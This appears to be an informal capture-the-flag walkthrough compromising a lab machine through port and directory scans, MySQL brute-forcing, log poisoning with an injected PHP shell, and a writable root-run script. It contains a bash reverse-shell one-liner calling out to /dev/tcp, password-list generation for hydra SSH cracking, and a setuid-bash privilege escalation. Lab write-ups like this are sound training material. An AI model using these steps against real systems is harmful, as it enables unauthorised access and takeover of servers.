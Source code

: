 Started a nmap scan
```
21 vsftpd 3.0.3
22 OpenSSH 8.2p1 Ubuntu
80 Apache 2.4.41
3306 MySQL 8.0.28
```
The FTP does not have anonymous login
Ran a nikto scan on the web host found nothing
Running a gobuster scan on the host tested `php,sql,txt,phps`
```
/index.php
/welcome.php redirects to login.php
/logout.php redirects to index
/config.php
```
After scanning for a while did not find much so back to the nmap scan going to enumerate the mysql service using nmap
`nmap -p 3306 --script=mysql*`
And found some valid usernames so we can try to crack the mysql service with this username list now
```
admin
netadmin
guest
user
web
administrator
sysadmin
root
webadmin
test
```
So the mysql service blocked us just keep restarting to will crack 
`root:m...ql` 
Now to enumerate the database there is one user and a hash we have to crack
`Adrian:ti...r` 
After we log in the site it tells us we have access to a log file tried brute forceing the FTP service with the username list if you do to much bruteing the log will be to big to inject into and wont be able to see the log
now we can inject a php shell into the log and access the server to get reverse shell enter this into the shell we injected
`/bin/bash -c 'bash -i > /dev/tcp/10.13.8.255/1340 0>%261'`
Now we have access to the server under `www-data` we can read the `config.php` file and has more db creds `adrian:P@ssw0...!`
So looking in the home folder of `adrian` there is a file called `.reminder` says `rules best of 64 + ! ettubrute` so we have to make a word list with john using the word `ettubrute` and add a ! at the end 
`john -wordlist:wordlist -rules:best64 -stdout > passwords` 
now we have a password list of 75 combos and make sure to a ! at the end of every word now we can use hydra to crack the ssh password for `adrian` now we got the password for his account `theettu....!` 
Now we have access `adrian` we can read the ftp in the ftp there is a folder called `files` and there are 2 files one `.notes` and the other `script` the notes file says he made a punch in script and plans to do something to it the script file points to `punch_in` and back in the home folder there is a file called `punch_in.sh` and this file is exacted by root but we cant write to it but we can write to the `punch_in` file and edit this into it `'chmod +s /bin/bash'` and after a minute and run `/bin/bash -p` and now we are root